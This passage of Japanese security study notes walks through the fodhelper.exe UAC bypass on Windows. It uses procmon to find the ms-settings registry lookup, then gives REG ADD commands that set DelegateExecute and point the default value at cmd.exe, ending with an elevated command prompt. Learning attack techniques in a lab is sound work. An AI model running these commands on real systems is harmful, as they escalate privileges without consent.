   * `HKCU:\Software\Classes\ms-settings\shell\open\command`レジストリーキーの検索のあと、**HKEY_CLASSES_ROOT**（HKCR）ハイブで同じキーにアクセスし、成功している。

    レジストリーエディターでも確認することができる（regedit)

    ![image-20230106080943088](img/Windows/UACByPass/image-20230106080943088.png)

    ![](img/UACByPass/image-20230106080943088-1673224359152-11.png)
    
    詳細を調べるとDelegateExecuteキーの値を特定のCOMクラスIDに設定したのち(Default)動作を実行するという流れのよう

* HKCUハイブ内のms-settingレジストリキーを登録する

  ```cmd
  REG ADD HKCU\Software\Classes\ms-settings\Shell\Open\command
  
  ---
  C:\Tools\privilege_escalation\SysinternalsSuite>REG ADD HKCU\Software\Classes\ms-settings\Shell\Open\command
  The operation completed successfully.
  ```

* 次にDelegateExecuteエントリーを追加する

  ```cmd
  REG ADD HKCU\Software\Classes\ms-settings\Shell\Open\command /v DelegateExecute /t REG_SZ
  ```

  * /v：値の名前を指定
  * /t：型を指定

  ![image-20230106081615681](img/Windows/UACByPass/image-20230106081615681.png)

  ![](img/UACByPass/image-20230106081615681-1673224378809-14.png)

* procmonのフィルターを「SUCCESS」に変更する。

  ![image-20230106081707074](img/Windows/UACByPass/image-20230106081707074.png)

  ![](img/UACByPass/image-20230106081707074-1673224399075-17.png)

  （Default)のレジストリーキーが実行されている

* 新しいレジストリー値を指定する

  ```
  REG ADD HKCU\Software\Classes\ms-settings\Shell\Open\command /d "cmd.exe" /f
  ```

* レジストリが正しく設定されたことを確認する

  ```
  REG QUERY HKCU\Software\Classes\ms-settings\Shell\Open\command
  ```

  

* 再度fodhelper.exeを実行するとコマンドプロンプトが立ち上がる
